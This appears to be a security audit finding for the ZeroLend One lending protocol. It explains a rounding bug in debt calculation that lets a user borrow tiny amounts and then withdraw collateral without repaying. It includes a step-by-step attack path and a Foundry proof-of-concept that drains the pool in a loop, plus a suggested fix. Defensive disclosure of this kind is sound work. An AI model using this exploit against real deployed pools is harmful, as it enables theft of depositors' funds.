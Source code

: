 Elegant Raspberry Lynx

High

# Small amount of borrow can drain pool

### Summary

A user can supply some amount of a token and borrow a small amount of a token from the pool and withdraw the initial amount they supplied without repaying the borrowed amount which could cause insolvency for the pool.

### Root Cause

https://github.com/sherlock-audit/2024-06-new-scope/blob/main/zerolend-one/contracts/core/pool/logic/ValidationLogic.sol#L124
The `validateBorrow` function In `ValidationLogic.sol` is used to validate borrow request from the user, currently it only requires that the borrowed amount is not 0, this allows user to borrow a minuscule amount of token.

https://github.com/sherlock-audit/2024-06-new-scope/blob/main/zerolend-one/contracts/core/pool/logic/ValidationLogic.sol#L239
The `validateHealthFactor` function in `ValidationLogic.sol` validate the requested amount of withdrawal from the user corresponding to the health factor.  The `healthFactor` variable returned from the `GenericLogic.calculateUserAccountData` function is compared with the `HEALTH_FACTOR_LIQUIDATION_THRESHOLD`  to be bigger or equal or else it reverts with an error. 

https://github.com/sherlock-audit/2024-06-new-scope/blob/main/zerolend-one/contracts/core/pool/logic/GenericLogic.sol#L69
Inside the `calculateUserAccountData` function the `vars.totalDebtInBaseCurrency` variable determines the `healthFactor` variable. The `vars.totalDebtInBaseCurrency` variable is increased by the `_getUserDebtInBaseCurrency` function. 

https://github.com/sherlock-audit/2024-06-new-scope/blob/main/zerolend-one/contracts/core/pool/logic/GenericLogic.sol#L184
Inside this function the `usersTotalDebt` variable is divided by the  `assetUnit` variable which is fetched from the reserve configuration of the asset. This is a problem if the `assetUnit` is bigger than the `usersTotalDebt` as it will amount to 0 in the end which would set the `healthFactor` variable to `type(uint256).max` which would allow the user to withdraw the initial amount that is supplied while still keeping the borrowed amount.

### Internal pre-conditions

1. Reserve Configuration of the asset needs to be borrowable :
- frozen: false
- borrowable: true

### External pre-conditions

1. At least 1 user needs to supply the token in the pool for an attacker to exploit this vulnerability.

### Attack Path

1. User 1 supply 1e18 wei of token A
2. Attacker supply 1e13 wei of token A at position index 0
3. Attacker borrow 1e9*9 wei of token A at position index 0
4. Attacker withdraw initial supplied amount of token A at position index 0
5. Attacker repeat step 2 - 4 for possibly thousands of times at incrementing position index (1,2,3....) 
6. User 1 withdraw initial supplied amount of token A (Revert error)

### Impact

- Pool insolvency
- Loss of funds for users
- Reputational damage for the protocol

### PoC

```solidity
// SPDX-License-Identifier: BUSL-1.1
pragma solidity 0.8.19;

import {MintableERC20} from '../../../../contracts/mocks/MintableERC20.sol';
import {PoolEventsLib, PoolSetup} from '../../core/pool/PoolSetup.sol';
import {console2} from '../../../../lib/forge-std/src/console2.sol';
import {stdError} from '../../../../lib/forge-std/src/StdError.sol';
import {DataTypes} from '../../../../contracts/core/pool/configuration/DataTypes.sol';
import {ReserveConfiguration} from '../../../../contracts/core/pool/configuration/ReserveConfiguration.sol';

contract mytest is PoolSetup {
  function setUp() public {
    _setUpPool();

    console2.log('This:', address(this));
    console2.log('msg.sender:', address(msg.sender));
    console2.log('owner:', address(owner));
    console2.log('whale:', address(whale));
    console2.log('ant:', address(ant));
    console2.log('governance:', address(governance));
  }

  function testSmallBorroWithdraw() external {
    
    uint256 index = 0;
    pos = keccak256(abi.encodePacked(address(owner), 'index', uint256(index)));
    uint256 mintAmount = 5 ether;

    tokenA.mint(owner, mintAmount);
    tokenA.mint(whale, mintAmount);
    tokenA.mint(ant, mintAmount);

    vm.startPrank(owner);
    tokenA.approve(address(pool), mintAmount * 1e9);

    vm.startPrank(ant);
    tokenA.approve(address(pool), mintAmount * 1e9);

    vm.startPrank(whale);
    tokenA.approve(address(pool), mintAmount * 1e9);

    console2.log('Owner Balance: ', tokenA.balanceOf(owner));
    console2.log('Ant Balance: ', tokenA.balanceOf(ant));
    console2.log('Whale Balance: ', tokenA.balanceOf(whale));
    console2.log('Pool Balance: ', tokenA.balanceOf(address(pool)));

    vm.startPrank(whale);
    pool.supplySimple(address(tokenA), whale, mintAmount, index);
    // pool.borrowSimple(address(tokenA), whale, mintAmount/2, index);
    // pool.withdrawSimple(address(tokenA), whale, mintAmount, index);

    vm.startPrank(owner);

    //Why only 4000 ? Avoid out of gas error, there could be a way to bypass this in foundry but due to time constraint, this is the best POC for now...
    for(uint i = 0; i < 4000; i++){
      pool.supplySimple(address(tokenA), owner, mintAmount, index+i);
      pool.borrowSimple(address(tokenA), owner, 1e9*9, index+i);
      pool.withdrawSimple(address(tokenA), owner, mintAmount, index+i);

      // console2.log(i);

    }

    // pool.borrowSimple(address(tokenA), owner, 1e9, index);

    // vm.startPrank(ant);
    // pool.supplySimple(address(tokenA), ant, mintAmount, index);
    // pool.borrowSimple(address(tokenA), ant, 1e9*9, index);
    // // pool.repaySimple(address(tokenA), 1e9*9, index);
    // pool.withdrawSimple(address(tokenA), ant, mintAmount, index);

    console2.log('Owner Debt: ', pool.getDebt(address(tokenA), owner, 0));
    // console2.log('Ant Debt: ', pool.getDebt(address(tokenA), ant, 0));

    console2.log('Owner Balance: ', tokenA.balanceOf(owner));
    // console2.log('Ant Balance: ', tokenA.balanceOf(ant));
    console2.log('Whale Balance: ', tokenA.balanceOf(whale));
    console2.log('Pool Balance: ', tokenA.balanceOf(address(pool)));

    vm.startPrank(whale);
    pool.withdrawSimple(address(tokenA), owner, mintAmount, index); //[FAIL. Reason: panic: arithmetic underflow or overflow (0x11)]

  }
}

```

### Mitigation

Fix the require statement in  `validateBorrow` function In `ValidationLogic.sol` such that it the minimum borrowed amount depends on the decimals of the asset borrowed. An attacker can get away borrowing 1e9 of an asset with 1e18 decimal but fails when it tries to borrow 1e10, hence the require statement could be something like "minimum borrow amount needs to be 8 decimal difference to the asset decimal". Could be something like this:

```solidity
uint256 minAmount = 10 ** params.cache.reserveConfiguration.getDecimals() / 1e8;
require(params.amount >= minAmount, PoolErrorsLib.INVALID_AMOUNT);
```